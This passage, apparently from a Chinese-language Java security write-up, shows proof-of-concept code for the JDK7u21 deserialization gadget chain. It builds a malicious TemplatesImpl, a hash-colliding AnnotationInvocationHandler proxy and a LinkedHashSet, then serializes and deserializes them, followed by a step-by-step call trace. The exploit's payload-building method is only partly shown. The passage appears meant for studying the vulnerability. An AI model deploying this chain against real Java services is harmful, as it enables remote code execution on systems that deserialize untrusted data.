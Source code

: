 ```java
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());


        return templates;
    }

    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = generateEvilTemplates();
        HashMap map = new HashMap();
        map.put("f5a5a608", "zero");

        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);

        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(jdk7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);
        // 实例化HashSet，并将两个对象放进去
        HashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);

        // 将恶意templates设置到map中
        map.put("f5a5a608", templates);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(set);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();

    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

## 调用逻辑
```
HashSet.readObject()
HashSet.put()
  AnnotationInvocationHandler.equals() // 精心构造使得2个对象的hashCode相同，触发equals
  AnnotationInvocationHandler.invoke()
  AnnotationInvocationHandler.equalsImpl() // 触发memberMethod.invoke(o)
    Templates.newTransformer() === TemplatesImpl.newTransformer()  // equalsImpl中会反射调用AnnotationInvocationHandler实例中type属性对应类的所有方法，由于AnnotationInvocationHandler的type是Templates，则会去调用Templates中的newTransformer
      TemplatesImpl.getTransletInstance() 
        TemplatesImpl.defineTransletClasses()  // 定义类
          ...  // 创建类实例，触发static代码块
```
